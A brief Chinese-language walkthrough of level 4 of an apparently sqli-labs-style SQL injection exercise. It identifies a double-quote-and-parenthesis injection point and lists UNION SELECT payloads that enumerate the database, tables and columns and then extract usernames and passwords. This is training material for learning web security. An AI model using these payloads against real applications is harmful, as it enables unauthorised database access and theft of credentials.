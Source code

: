 ​	

​	

## 第四关

`1'`页面正常显示

`1"`页面报错，说明有注入点

![](https://pic.imgdb.cn/item/64cfabf91ddac507cc111909.jpg)

并且通过报错信息得知是双引号字符型且用括号闭合

```mysql
1") order by 3--+
-1") union select 1,2,3--+
-1") union select 1,database(),version()--+
-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
-1") union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
-1") union select 1,2,group_concat(username,id,password) from users--+
```

​	

​	

### 第五关


